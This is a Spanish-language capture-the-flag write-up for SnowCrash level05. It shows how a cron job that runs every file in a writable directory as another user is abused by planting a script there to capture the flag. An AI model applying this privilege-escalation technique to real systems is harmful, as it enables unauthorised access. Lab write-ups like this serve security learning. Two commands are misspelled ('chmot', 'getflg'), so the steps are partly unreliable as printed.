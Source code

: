 ---

### LEVEL05

- Cuando entro encuentro que he tengo un mail
    ```bash
    ssh level05@192.168.1.33 -p4242                                                                                               ─╯
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

    Good luck & Have fun

          192.168.1.33
    level05@192.168.1.33's password:
    You have new mail.
    level05@SnowCrash:~$
    ```

- En `/var/mail/` hay un archivo (level05)
    ```bash
    level05@SnowCrash:~$ ls -la /var/mail/
    total 4
    drwxrwsr-x  1 root mail  60 Mar  5  2016 .
    drwxr-xr-x  1 root root 180 Mar 12  2016 ..
    -rw-r--r--+ 1 root mail  58 Mar 31 19:28 level05
    ```

- cat /var/mail/level05
    ```bash
    level05@SnowCrash:~$ cat /var/mail/level05
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
    ```

- cat /usr/sbin/openarenaserver
    ```bash
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done

    ```
- El script que se ejecuta cada 2 minutos lo que hace es ejecutar todos los archivos que hay en `/opt/openarenaserver/` y luego los borra
- `(ulimit -t 5)` es un comando que limita la ejecución a 5 segundos
- creo en /opt/openarenaserver un exploit con lo siguiente:
    ```bash
    echo "/bin/getflg > /tmp/flag05" > /opt/openarenaserver/exploit
    chmot 777 /opt/openarenaserver/exploit
    ```

- para ver el resultado
    ```bash
    watch -n 0.1 cat /tmp/flag05
    ```
